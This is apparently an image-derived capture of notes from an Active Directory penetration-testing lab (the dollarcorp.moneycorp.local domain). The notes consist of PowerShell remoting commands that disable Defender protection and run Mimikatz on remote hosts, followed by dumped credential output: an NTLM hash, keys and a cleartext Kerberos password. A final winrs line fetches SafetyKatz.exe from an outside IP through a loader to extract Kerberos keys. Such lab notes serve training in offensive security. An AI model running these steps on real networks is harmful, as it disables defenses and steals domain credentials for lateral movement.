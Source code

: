 ```

$sess = New-PSSession -ComputerName dcorp-mgmt.dollarcorp.moneycorp.local

$sess2 = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local

Invoke-command -ScriptBlock{Set-MpPreference -DisableIOAVProtection $true} -Session $sess

Invoke-command -ScriptBlock ${function:Invoke-Mimikatz} -Session $sess

Invoke-command -ScriptBlock{Get-Process -IncludeUserName} -Session $sess


Invoke-command -ScriptBlock{$ExecutionContext.SessionState.LanguageMode = "FullLanguage"} -Session $sess2


Invoke-command -ScriptBlock{whoami} -Session $sess
```

```
Authentication Id : 0 ; 64685 (00000000:0000fcad)
Session           : Service from 0
User Name         : svcadmin
Domain            : dcorp
Logon Server      : DCORP-DC
Logon Time        : 11/16/2021 8:50:08 PM
SID               : S-1-5-21-1874506631-3219952063-538504511-1122
	msv :	
	 [00000003] Primary
	 * Username : svcadmin
	 * Domain   : dcorp
	 * NTLM     : b38ff50264b74508085d82c69794a4d8
	 * SHA1     : a4ad2cd4082079861214297e1cae954c906501b9
	 * DPAPI    : fd3c6842994af6bd69814effeedc55d3
	tspkg :	
	wdigest :	
	 * Username : svcadmin
	 * Domain   : dcorp
	 * Password : (null)
	kerberos :	
	 * Username : svcadmin
	 * Domain   : DOLLARCORP.MONEYCORP.LOCAL
	 * Password : *ThisisBlasphemyThisisMadness!!
	ssp :	
	credman :	


$null | winrs -r:dcorp-mgmt C:\Users\Public\Loader.exe -path http://172.16.99.87/SafetyKatz.exe sekurlsa::ekeys exit
```

